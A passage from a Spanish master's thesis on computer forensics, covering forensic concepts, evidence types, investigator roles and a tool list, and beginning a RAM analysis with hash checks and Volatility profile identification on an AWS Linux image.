2. Disciplina científica que ofrece un análisis de la información que contienen las tecnologías y de los equipos de computación a partir de su compresión.(Centrada en la tecnología).

**Ciencia forense en las redes (network forensics).**

1. Trata las operaciones de redes de computadores, estableciendo rastros e identificando movimientos y acciones. Es necesario entender los protocolos, configuraciones y la infraestructura de las comunicaciones. A diferencia de la computación forense, es necesario poder establecer relaciones entre eventos diferentes e incluso aleatorios.

**Ciencia forense digital (digital forensics).**

1. Es una forma de aplicar los conceptos y procedimientos de la criminalística a los medios informáticos o digitales. Su objetivo es apoyar al poder judicial en el contexto de la inseguridad informática es decir, la perpetración de posibles delitos aclarando temas relacionados con incidentes o fraudes.

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo)**

---

                    

### **1.7.3. Objetivos de la informática forense.**

La informática forense tiene tres objetivos:

1. La compensación de los daños causados por los intrusos o criminales.
2. La persecución y procesamiento judicial de los criminales.
3. La creación y aplicación de medidas para prevenir casos similares.

Estos objetivos se alcanzan de varias formas, siendo la principal la recopilación de evidencias.

Es importante mencionar que quienes se dedican a la informática forense deben ser profesionales con altos niveles de ética, pues gracias a su trabajo se toman decisiones sobre los hechos y casos analizados.

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo)**

---

                                

### **1.7.4. Evidencia digital.**

Los discos duros, las memorias **<u style='color:red'>USB</u>** y las impresoras (entre otros elementos) se pueden considerar evidencias en un proceso legal, al igual que las huellas digitales o las armas. Las evidencias digitales son las que se extraen de un medio informático.

**Características.**

Estas evidencias comparten una serie de características que dificultan el ejercicio de la computación forense:

1. Volatilidad.
2. Anonimato.
3. Facilidad de duplicación.
4. Alterabilidad.
5. Facilidad de eliminación.

**Categorías.**

Estas evidencias se pueden dividir en tres categorías:

- Registros almacenados en el equipo de tecnología informática (ej. imágenes y correos).
- Registros generados por equipos de tecnología informática (ej. transacciones, registros en eventos).
- Registros parcialmente generados y almacenados en los equipos de tecnología informática (ej. consultas en bases de datos).

**Dispositivos a analizar.**

Cualquier infraestructura informática que tenga una memoria (almacenamiento) es susceptible a los análisis:

- Disco duro de una Computadora o Servidor.
- Documentación referente al caso.
- Tipo de sistema de telecomunicaciones.
- Dirección **<u style='color:red'>MAC</u>**.
- Inicios de sesiones.
- Información de los cortafuegos.
- **<u style='color:red'>IP</u>**, redes **<u style='color:red'>Proxy</u>**. **<u style='color:red'>LMhost</u>**, host, conexiones cruzadas, pasarelas.
- Software de supervisión y seguridad.
- Credenciales de autentificación.
- Rastreo de paquetes de red.
- Teléfonos móviles o celulares (telefonía móvil)
- Agendas electrónicas (**<u style='color:red'>PDA</u>**).
- Dispositivos de **<u style='color:red'>GPS</u>**.
- Impresoras.
- Memorias **<u style='color:red'>USB</u>**.
- **<u style='color:red'>BIOS</u>**.

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo)**

---

### **1.7.5. Perspectiva de tres roles.**

En el análisis de un caso en el que sea necesario el cómputo forense, hay tres roles principales que son importantes y se deben tener en cuenta: el intruso, el administrador y la infraestructura de la seguridad informática, al igual que el investigador.

**Intrusos.**

El intruso es aquel que ataca un sistema, hace cambios no autorizados, manipula contraseñas o cambia configuraciones, entre otras actividades que ponen a prueba la seguridad de un sistema. La intención de los intrusos es un punto clave para poder analizar el caso, ya que no se puede comparar un intruso cuya motivación es el dinero con otro cuya motivación es la demostración de sus habilidades. Jeimy J. Cano hace una comparación entre las motivaciones de diferentes tipos de atacantes en la siguiente tabla, basada en el artículo de Steven Furnell Cybercrime.

| Motivaciones | **<u style='color:red'>Ciberterroristas</u>** | **<u style='color:red'>Phreakers</u>** | **<u style='color:red'>Script kiddies</u>** | **<u style='color:red'>Crackers</u>** | Desarrollo de virus	 | Atacante interno |
| :------------: | :----------------: | :---------: | :--------------: | :--------: | :------------------: | :----------------: |
| Reto |  | X |  |  | X	| X |
| Ego |  | X | X |  | X	|  |
| Espionaje |  |  |  | X | X | X |
| Ideología | X |  |  |  |  |  |
| Dinero |  | X |  | X | X | X |
| Venganza | X |  | X |  | X | X |
|  |  |  |  |  |  |  |

En la primera fase (reconocimiento), se busca reconocer y recolectar información. De esta manera, el atacante puede saber cómo puede actuar y los riesgos posibles, para así poder avanzar. En la segunda fase (ataque) se compromete el sistema, avanzando hasta el nivel más alto, teniendo el control del sistema atacado. Esta etapa usualmente se maneja de manera discreta, lo que dificulta la identificación del intruso. Usualmente, la vanidad del intruso y la falta de discreción ayudan al investigador a resolver el caso con mayor facilidad. Finalmente, (en la fase de eliminación) se altera, elimina o desaparece toda la evidencia que pueda comprometer al intruso en algún caso judicial. Del cuidado con el que el atacante proceda en esta fase depende el proceso del informático forense y del caso.

**Administradores y la infraestructura de la seguridad informática.**

El administrador del sistema es el experto encargado de la configuración de este, de la infraestructura informática y de la seguridad del sistema. Estos administradores son los primeros en estar en contacto con la inseguridad de la información, ya sea por un atacante o por una falla interna de los equipos. Al ser los arquitectos de la infraestructura y de la seguridad de la información del sistema, son quienes primero deberían reaccionar ante un ataque. Además, ellos deben proporcionar su conocimiento de la infraestructura del sistema para apoyar el caso y poder resolverlo con mayor facilidad.

Las infraestructuras de seguridad informática (realizadas por el administrador) han avanzado a medida que avanzan las tecnologías. Inicialmente, se utilizaba una infraestructura centralizada en la cual la información se encontraba en un equipo. Por lo tanto, en este caso la seguridad informática se concentraba en el control del acceso a los equipos con la información, al control del lugar en donde se encontraban y en el entrenamiento de quienes estaban encargados de manejar los equipos. Pero con la tecnología fueron cambiando las infraestructuras y las inseguridades cambiaron. Así es como se crearon los **<u style='color:red'>proxies</u>**, **<u style='color:red'>firewall</u>**, el sistema de detección de intrusos (**<u style='color:red'>IDS</u>**) , el sistema de prevención de intrusos (**<u style='color:red'>IPS</u>**) entre muchas otras herramientas para proveer una mejor seguridad a los sistemas, ya que ahora el acceso no ocurría solo a través de la máquina, sino a través de otras y de la Web.

Por otro lado, es importante hablar de la auditabilidad y trazabilidad, que son propiedades del sistema, relacionados con la infraestructura que son útiles como evidencia para el investigador. La auditabilidad es la capacidad del sistema para registrar los eventos de una acción en particular con el fin de mantener la historia de estos y de realizar un control con mayor facilidad. En cambio, la trazabilidad es la propiedad que tiene un sistema para rastrear o reconstruir relaciones entre diferentes objetos monitorizados.

Es importante resaltar que el administrador debe conocer lo suficiente sobre la infraestructura del sistema para poder colaborar con el caso, ya que su análisis puede facilitar el proceso del investigador forense. Adicionalmente, contar con los rastros y registro de eventos (Auditoría informática) en los sistemas es crucial para el administrador y su infraestructura, no solo porque genera confianza en sus clientes, sino también porque es una buena práctica en términos de seguridad para toda la empresa.

**Investigador.**

Es un nuevo profesional que actúa como experto, criminalista digital, o informático. Comprende y conoce las nuevas tecnologías de la información. Además, el investigador analiza la inseguridad informática emergente en los sistemas. El perfil del investigador es nuevo y necesario en el contexto abierto informático en el que vivimos. Por lo tanto, es necesario formar personas que puedan trabajar como investigadores en la disciplina emergente de la criminalística digital y el cómputo forense. Estas prácticas emergentes buscan articular las prácticas generales de la criminalística con las evidencias digitales disponibles en una escena del crimen. El trabajo del informático es indagar en las evidencias, analizarlas y evaluarlas para poder decidir cómo estas evidencias pueden ayudar a resolver el caso. Por lo tanto, es ideal que un investigador tenga conocimientos (al menos) sobre las siguientes áreas: justicia criminal, auditoría, administración y operación de tecnologías de Información.

En una investigación informática forense, hay ocho roles principales en un caso: el líder del caso, el propietario del sistema, el asesor legal, el auditor/ingeniero especialista en seguridad de la información, el administrador del sistema, el especialista en informática forense, el analista en informática forense y el fiscal. Usualmente, entre todos estos roles, los informáticos forenses pueden tomar los siguientes cuatro roles:

1. Líder del caso.

Es aquel que planea y organiza todo el proceso de investigación digital. Debe identificar el lugar en donde se realizará la investigación, quienes serán los participantes y el tiempo necesario para esta.

2. Auditor/ingeniero especialista en seguridad de la información.

Conoce el escenario en donde se desarrolla la investigación. Tiene el conocimiento del modelo de seguridad, los usuarios y las acciones que pueden realizar en el respectivo sistema. A partir de sus conocimientos debe entregar información crítica a la investigación.

3. Especialista en informática forense:

Es un criminalista digital que debe identificar los diferentes elementos probatorios informáticos vinculados al caso, determinando la relación entre los elementos y los hechos para descubrir el autor del delito.

4. Analista en informática forense:

Examina en detalle los datos, los elementos informáticos recogidos en la escena del crimen con el fin de extraer toda la información posible y relevante para resolver el caso.

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo)**

---

                                     

### **1.7.6. Retos y riesgos en el análisis forense.**

Al estar en un escenario que evoluciona constantemente, cada vez surgen más retos y riesgos en el área de la informática forense. Entre ellos la formación de informáticos forenses, la confiabilidad de las herramientas, la facilidad de la destrucción de las evidencias, las amenazas estratégicas y tácticas que plantea el ciberterrorismo; y las tecnologías emergentes como la nube, las tecnologías móviles, y las redes sociales. Algunos de estos temas se abordarán a continuación:

**Formación de informáticos forenses.**

Los criminales informáticos son una nueva generación de delincuentes, en este contexto, es necesario desarrollar un nuevo tipo de investigadores: los informáticos forenses. En este momento es un desafío encontrar personas que tengan este perfil, ya que no existen suficientes programas que realicen este tipo de formación. Adicionalmente, en este momento, la mayoría de las personas ignoran la importancia de los informáticos forenses porque no son conscientes de la dimensión del cibercrimen. Usualmente se cree que no es algo tan grave y se le da mayor importancia a otro tipo de crímenes.

Por lo tanto, se deben plantear programas e iniciativas para poder realizar esta formación. Según investigaciones e iniciativas ya realizadas, hay cuatro componentes principales que deben estar presentes en un programa de computación forense o forensia digital: contenido multidisciplinario, ejercicios prácticos, profesores de calidad y ejemplos del mundo real (investigación de Taylor Endicott-Popovsky y Phillips, 2007).

- **Contenido multidisciplinario.**
    - Técnico en informática, conocimiento de criminalística, seguridad y delitos informáticos, entre otros.
- **Ejercicios prácticos en el laboratorio.**
    - Con herramientas tecnológicas forenses, en diferentes niveles de dificultad y variedad de componentes a analizar.
- **Profesores calificados.**
    - Con alto conocimiento en el tema.
- **Ejemplos del mundo real.**
    - Con el fin de dar mayor profundidad al aprendizaje.

**Confiabilidad de las herramientas.**

Las herramientas existentes disponibles para el cómputo forense presentan otro reto. Las herramientas licenciadas exigen a los investigadores inversiones altas (tanto en hardware, como en software), al adquirirlas y para mantenerlas. Adicionalmente, como las herramientas están avanzando constantemente requieren técnicos y usuarios que estén constantemente aprendiendo las actualizaciones, las modificaciones y los posibles errores. Por otro lado, las herramientas de código abierto son cuestionadas en muchos tribunales por su confiabilidad. Por lo tanto, no se recomiendan a la hora de usarse en una audiencia.

Es por esto que el **<u style='color:red'>NIST</u>** (National Institute of Standards and Technology de Estados Unidos) ha planteado importantes investigaciones para probar y poner reglas para las herramientas del cómputo forense, en su proyecto **<u style='color:red'>NIST</u>** Computer Forensic Tool Testing Program. Las pruebas realizadas serán útiles para cumplir las exigencias del test de Daubert standard, prueba que establece la confiabilidad de las herramientas en computación forense.

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo)**

---

                                           

### **1.7.7. Herramientas de Análisis Forense.**

La siguiente tabla compara cuatro herramientas reconocidas internacionalmente al ser muy completas. Luego, se encuentra una lista más completa de herramientas útiles para la labor del investigador.

----------------------------------------------------------
| **Herramienta** | **Licencia** | **Imagen** | **Control de Integridad**  | **Administración del caso**  |
| :-----------: |  :-------: | :------: | :----------------------: | :------------------------: |
| Encase |  SI | SI | SI | SI |
| Forensic Toolkit | SI | SI | SI | SI |
| Winhex | SI | SI | SI | SI |
| Sleuth Kit | NO | SI | SI | SI |
|  |   |  |  |  |

- Air (Forensics Imaging GUI).
- Autopsy (Forensics Browser for Sleuth Kit)Cryptcat (Command Line)Deep Freeze.
- Dcfldd (DD Imaging Tool command line tool and also works with AIR).
- Dumpzilla (Forensics Browser: Firefox, Iceweasel and Seamonkey).
- Encase: \url{https://www.guidancesoftware.com/encase-forensic?cmpid=nav_r}.
- Exif Viewer (Visor de metadatos en imágenes).
- Faces.
- Foremost (Data Carver command line tool).
- Forensik Toolkit: \url{https://accessdata.com/products-services/forensic-toolkit-ftk}.
- Helix.
- Hetman software (Recuperador de datos borrados por los criminales).
- Hiren´s boot.
- Md5deep (MD5 Hashing Program).
- Metashield Analyser Online (Analizador de metadatos online).
- Mini XP.
- NTFS-Tools.
- Netcat (Command Line).
- Net resident.
- NetFlow.
- Py-Flag (Forensics Browser).
- Qtparted (GUI Partitioning Tool).
- R-Studio Emergency (Bootable Recovery media Maker).
- R-Studio Network Edtion.
- R-Studio RS Agent.
- Regviewer (Windows Registry).
- Sleuth Kit (Forensics Kit. Command Line): \url{https://www.sleuthkit.org/}.
- Snort.
- Viewer.
- Volatility (Reconstrucción y análisis de memoria RAM).
- X-Ways Forensics.
- X-Ways WinHex \url{https://www.x-ways.net/winhex/}.
- X-Ways WinTrace.

**Herramientas para el análisis de discos duros:**

- AccessData Forensic ToolKit (FTK).
- Guidance Software EnCase.
- Kit Electrónico de Transferencia de datos.

**Herramientas para el análisis de correos electrónicos:**

- Paraben.
- AccessData Forensic ToolKit (FTK).

**Herramientas para el análisis de dispositivos móviles:**

- Cellebrite UFED Touch 2, Physical Analyzer.
- AccessData Mobile Phone Examiner Plus (MPE+).

**Herramientas para el análisis de redes:**

- E-Detective - Decision Computer Group.
- SilentRunner - AccessData.
- NetworkMiner.
- Nerviness Investigator.

**Herramientas para filtrar y monitorear el tráfico de una red tanto interna como a internet:**

- Tcpdump.
- USBDeview.
- SilentRunner - AccessData.
- WireShark.

#### [1.7. Referencia 011.](#85011-cómputo-forense-de-wikipedia)

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

              

# 2. Extremos del análisis y previsión de pruebas técnicas.

## Índice del capítulo 2. Extremos del análisis y previsión de pruebas técnicas.

  - [2.0. Introducción al capítulo 2. Extremos del análisis y previsión de pruebas técnicas.](#20-introducción-al-capítulo-2-extremos-del-análisis-y-previsión-de-pruebas-técnicas)
  - [2.1. Propuesta de extremos.](#21-propuesta-de-extremos)
  - [2.2. Previsión de pruebas técnicas.](#22-previsión-de-pruebas-técnicas)

**[Volver al Índice General.](#índice-general)**

---

                                 

## 2.0. Introducción al capítulo 2. Extremos del análisis y previsión de pruebas técnicas.

En la era digital actual, la capacidad de llevar a cabo análisis forenses en ordenadores se ha convertido en una competencia crítica dentro del ámbito de la investigación criminal. El análisis forense informático permite a los investigadores descubrir, preservar y analizar datos en dispositivos electrónicos que pueden ser críticos para resolver delitos. Este capítulo se dedica al estudio meticuloso de los métodos y prácticas estándar en la computación forense, con un enfoque específico en la adquisición y análisis de datos de la memoria RAM y discos duros. Se expondrá la metodología utilizada para garantizar la **<u style='color:red'>integridad</u>** de la evidencia y se ilustrarán los desafíos asociados a la recolección y el análisis de datos digitales.

Con el avance de la tecnología, los investigadores forenses enfrentan la dualidad de oportunidades y desafíos. Por un lado, las herramientas modernas ofrecen capacidades sin precedentes para recuperar y analizar datos; por otro lado, la creciente sofisticación del software y hardware supone nuevos niveles de complejidad y la necesidad de constante actualización en conocimientos y técnicas. Este capítulo también contempla la noción de deuda técnica asociada a la utilización de herramientas y sistemas operativos en la investigación forense, reconociendo la importancia de mantener un enfoque crítico hacia las herramientas utilizadas.

La documentación y control de versiones son aspectos cruciales en cualquier proyecto de investigación y desarrollo, más aún en el ámbito forense digital, donde la transparencia y reproducibilidad son fundamentales. Se detallará el uso del repositorio de **<u style='color:red'>Github</u>** (https://github.com/jrodg85/TFM-ANALISIS-FORENSE) para la documentación del TFM y el control de versiones aplicado al proceso de análisis forense. Se discutirá la relevancia de la colaboración y el seguimiento preciso de cambios en el código y documentos relacionados con el proyecto.

Finalmente, no se puede ignorar el papel fundamental que juega el acceso a recursos online en la actualización constante y el acceso a información relevante y actualizada en el campo de la forense digital. La Internet es una fuente inagotable de conocimiento, pero también presenta riesgos que deben ser gestionados con prudencia. En resumen, este capítulo traza el panorama del análisis forense en ordenadores, describiendo las herramientas y metodologías utilizadas, así como las mejores prácticas en la documentación y gestión de la información digital en investigaciones forenses.

**[Volver al Índice del capítulo 2. Extremos del análisis...](#índice-del-capítulo-2-extremos-del-análisis-y-previsión-de-pruebas-técnicas) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

          

## 2.1. Propuesta de extremos.

La presente investigación tiene como propósito fundamental el establecimiento de un marco metodológico para el análisis forense de ordenadores, específicamente orientado hacia la identificación, recolección y análisis de evidencias digitales que puedan ser presentadas en un entorno judicial. A continuación, se delinean los extremos de esta propuesta:

**Objeto de Estudio:**

- La investigación se centrará exclusivamente en el análisis forense del material facilitado para el desarrollo de la asignatura por parte del profesorado de la asignatura.
- Se realizará una breve indicación sobre la aplicación utilizada con cada uno de los objetivos del presente TFM.

**Alcance metodológico:**

- La validación de la **<u style='color:red'>integridad</u>** de la evidencia se hará mediante el uso de funciones **<u style='color:red'>hash</u>** estándar.
- Se examinarán las metodologías para el análisis de la memoria volátil y no volátil.

**Limitaciones:**

- La validación de la **<u style='color:red'>integridad</u>** de la evidencia se hará mediante el uso de funciones **<u style='color:red'>hash</u>** estándar.
- Se examinarán las metodologías para el análisis de la memoria volátil y no volátil.

**Exclusiones:**

- No se utilizará material de análisis que no sea el proporcionado por la asignatura.

**[Volver al Índice del capítulo 2. Extremos del análisis...](#índice-del-capítulo-2-extremos-del-análisis-y-previsión-de-pruebas-técnicas) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

                   

## 2.2. Previsión de pruebas técnicas.

**Pruebas técnicas:**

- El propósito de estas pruebas técnicas es lo indicado en el apartado de problema a resolver del presente Trabajo de fin de master
  - Solventar las necesidades del gerente de la empresa mediante el análisis forense del disco duro y la captura de memoria de un ordenador personal, en un caso real con un sistema virtualizado.
  - Posible vinculación con una presunta conducta delictiva real.
- Importancia de las pruebas para validar la hipótesis y objetivos de investigación.
  - La posible imputación de los hechos ocurridos y tomar posibles medidas legales contra el autor univoco de la acción detectada.

**Marco metodológico de las pruebas:**

- Las pruebas que se realizarán serán una investigación y un estudio temporal de los hechos ocurridos dentro del servidor.
- Se emplearán herramientas de análisis forense en sus distintos sistemas operativos (Linux/Windows) para su detección.
- se tratará de arrancar el sistema virtualizado para posible **<u style='color:red'>carving</u>** de la información del disco duro por posible eliminación de pruebas por parte del posible infractor.
- La planificación de las pruebas ha quedado detallado en la sección "planificación temporal de las tareas".

**Criterios de éxito de las pruebas:**

- Análisis de los incidentes ocurridos con una justificación probatoria del mismo.
- Realización de un análisis de seguridad de las vulnerabilidades detectadas y una via de mitigación de los mismos.

**Cronograma de pruebas:**

- El cronograma de las pruebas ha quedado detallado en la sección "planificación temporal de las tareas".
- Hitos importante, fechas de entrega de las PEC.

**[Volver al Índice del capítulo 2. Extremos del análisis...](#índice-del-capítulo-2-extremos-del-análisis-y-previsión-de-pruebas-técnicas) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

          

# 3. Análisis de la memoria RAM.

## Índice del capítulo 3. Análisis de la memoria RAM.

**[Volver al Índice General.](#índice-general)**

---

                                      

## 3.0. Introducción al capítulo 3. Análisis de la memoria RAM.

El análisis forense de la memoria RAM es un componente crítico en la investigación digital, pues permite a los analistas extraer información valiosa que no persiste una vez que el dispositivo se apaga. Esta volatilidad hace que la memoria RAM sea una fuente de evidencia esencial, especialmente en casos donde los procesos activos y la información en tránsito son relevantes para el caso. El presente capítulo detalla un enfoque metodológico estructurado para examinar de manera exhaustiva el contenido de la memoria RAM capturada de un sistema informático, con el objetivo de identificar y analizar aspectos críticos que contribuyan a la investigación.

Las acciones específicas que se abordarán son las siguientes:

1. **Comprobación del MD5:**

- Iniciaremos con la verificación de la **<u style='color:red'>integridad</u>** del volcado de la memoria RAM mediante el cálculo de su suma de verificación MD5. Este paso es fundamental para asegurar que los datos analizados no han sido alterados desde el momento de su adquisición, garantizando así la **<u style='color:red'>cadena de custodia</u>** digital.

2. **Identificación del Sistema Operativo:**

- Aunque ya intuyamos, por el apartado anterior datos básicos del Sistema operativo, es vital determinar la versión y configuración del sistema operativo en uso, ya que esto influirá en la interpretación de los datos y en la selección de las herramientas de análisis adecuadas.

3. **Búsqueda de Datos de Interés:**

- Seguiremos con la inspección minuciosa del contenido de la memoria para identificar información potencialmente relevante para el caso. Esto incluye, pero no se limita a, datos residuales de aplicaciones, fragmentos de comunicaciones y elementos que puedan ser reconstruidos para obtener evidencia. Servirá para tener una previsión de por donde dirigir el estudio de todo el análisis forense.

4. **Búsqueda de Procesos en Funcionamiento de Interés:**

- Un punto focal de nuestra investigación será el examen de los procesos activos en el momento de la captura de la memoria. Esta inspección nos permitirá comprender mejor el estado del sistema antes del apagado o la hibernación.

5. **Análisis y Extracción de Procesos Sospechosos:**

- Finalmente, nos concentraremos en reconstruir y examinar las conexiones de red activas y pasivas. El objetivo es identificar patrones de tráfico inusuales o conexiones que puedan indicar comunicación con servidores de comando y control, exfiltración de datos o cualquier otra actividad que se considere sospechosa.

El resultado de este análisis exhaustivo proporcionará una comprensión detallada de lo que estaba ocurriendo en el sistema en el momento de la captura de la memoria. Esta información es invaluable para formar una imagen completa de los eventos bajo investigación y para establecer hechos concretos que puedan ser presentados como evidencia en un entorno judicial.

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

                                             

## 3.1. Acciones previas al análisis de la memoria RAM.

En el presente TFM, se nos ha proporcionado a los alumnos un archivo de captura de memoria RAM .mem. Por otro lado, se nos ha proporcionado los resúmenes o **<u style='color:red'>hash</u>** en MD5 y en SHA1 de los archivos tal y como se muestra en la siguiente imagen.

#### [3.1 Imagen 001.](#82003001001-imagen-hash-archivos)

Como Podemos ver, los **<u style='color:red'>hash</u>** resúmenes del archivo de la ram, tememos los siguientes hashes en MD5 y en SHA1:

- **MD5:** 75a99b57032aa34ba19042ed85db273f
- **SHA1:** cc1fad2af321b8c2ddf0103986e3b344eb8f2cc8

El **<u style='color:red'>hash</u>** tal y como se indica en los apuntes de la asignatura, en el módulo de Fases y metodología del análisis forense, durante la adquisición de evidencias digitales dice  lo siguiente:

Una vez generada la copia o clon del soporte original, el programa o el dispositivo hardware empleado en este proceso realiza el cálculo del **<u style='color:red'>CRC</u>** o del valor **<u style='color:red'>hash</u>** del soporte original y del destino, con la finalidad de garantizar que los dos son idénticos y que la copia se ha producido sin ningún error. Este cálculo puede realizarse sobre todo el conjunto de información contenida en el soporte original, o bien emplear solamente un conjunto de ficheros del total.

A su vez, en el glosario de términos la definición de **<u style='color:red'>hash</u>** es la siguiente:

Es una función matemática unidireccional que resume un mensaje de tamaño variable (por ejemplo, un archivo), en una representación de tamaño fijo. Es poco probable que dos ficheros distintos tengan la misma representación **<u style='color:red'>hash</u>**, lo cual significa que este valor puede utilizarse a efectos de comprobación de la **<u style='color:red'>integridad</u>** de un archivo (o de un sistema entero). Las funciones **<u style='color:red'>hash</u>** más conocidas son MD5 y SHA-1.

Una vez descargado el archivo de captura de la memoria RAM, procedemos a usar PowerShell para determinar el **<u style='color:red'>hash</u>** del archivo. Para ello usamos el comando  "Get-FileHash [Argumento] -Algorithm MD5". En nuestro caso hemos usado los siguientes comandos:

#### [3.1 Comando 001.](#84004001001-comando-hash-md5) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [3.1 Comando 002.](#84004001002-comando-hash-sha1)

Se puede observar en la siguiente imagen la respuesta de PowerShell de los hashes de MD5 y SHA1.

#### [3.1. Imagen 002.](#82003001002-imagen-hash-powershell)

Como conclusión podemos verificar que la **<u style='color:red'>integridad</u>** de la copia facilitada para realizar el TFM no ha sido vulnerada.

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

    

## 3.2. Sistema Operativo de la memoria RAM analizada.

Procedemos a preparar una VM con Ubuntu 22.04, el cual le instalamos el volatility según en el siguiente enlace. Haga click en la imagen para acceder al enlace:

#### [3.2. Video 001](#83003002001-video-de-instalación-de-volatility-en-ubuntu)

A continuación procedemos a buscar el perfil con volatility con el comando `imageinfo`.

#### [3.2 Imagen 001](#82003002001-imagen-de-imageinfo)

Como se puede observar en la imagen anterior, no hemos llegado a encontrar un perfil concreto con `imageinfo`, eso se debe a que el perfil creado no es el que se encuentra dentro de las conocidas en la base de datos de volatility. Por ello procedemos a buscar dentro de la memoria RAM un string que tenga la cadena de texto "linux version". para ello ejecutamos el comando `strings Server_{RAM}.mem \mid grep -Ei linux version \mid uniq`.

#### [3.2 Imagen 002.](#82003002002-imagen-de-búsqueda-de-string-linux-version)

Podemos observar en la imagen anterior que el sistema operativo que utiliza en nuestro caso es un sistema operativo Linux para Amazon Web Service, concretamente el sistema operativo es el **4.15.0-1021.21-aws 4.15.18**. Esta version de Linux, es muy usada para las instancias de Amazon Web Services.

Como no tenemos el perfil cargado dentro de volatility, nos va a tocar hacer la tarea de cargar un perfil de este Sistema operativo para poder seguir ejecutando la aplicación volatility.

Buscando en google **linux version 4.15.0-1021.21-aws volatility**, nos encontramos solo un enlace en internet, el cual es https://lists.ubuntu.com/archives/bionic-changes/2018-August/016183.html, con ello nos encontrábamos con algo que ya se intuía previamente, y es que la versión del server de **<u style='color:red'>AWS</u>**, es basada en un ubuntu 18.04, ya que la fecha que indica 4.15.18 es una fecha en tipo "d.mm.aa".

